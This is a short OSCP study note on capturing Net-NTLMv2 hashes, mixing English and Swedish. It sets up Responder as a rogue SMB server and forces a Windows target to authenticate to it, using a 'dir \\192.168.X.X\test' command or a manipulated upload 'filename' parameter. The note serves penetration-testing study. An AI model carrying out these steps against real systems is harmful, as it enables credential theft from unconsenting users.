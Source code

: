 ```yaml
---
{"dg-publish":true,"permalink":"/OSCP/h. Password Attacks/7. Net-NTLMv2 Stealing/"}
---
```


- Another way of accessing hashes is by capturing them in the middle of an authentication to a controlled system.
- Hashes are spilled when trying to authenticate using the Net-NTLMv2 protocol instead of Kerberos, which is more secure.
- This could be done by already having RCE and accessing higher privileged hashes, or by forcing the system via some function to authenticate against our controlled machine

----------------

### RCE Net-NTLMv2 Hash Steal:
1. Enumerera användaren (valfritt):
```
net user <user>
```
2. Sätt upp SMB Server med Responder i Kali:
```
sudo responder -I <interface>
```
3. Skicka en förfrågan efter en arbiträr share på SMB-servern från Windows:
```
dir \\192.168.X.X\test
```
4. Win!

----------
### File Upload Net-NTLMv2 Hash Steal:
1. Modifiera Burp Requesten för parametern 'filename' att ladda upp en arbiträr fil från Responder-SMB:n.
2. Win!

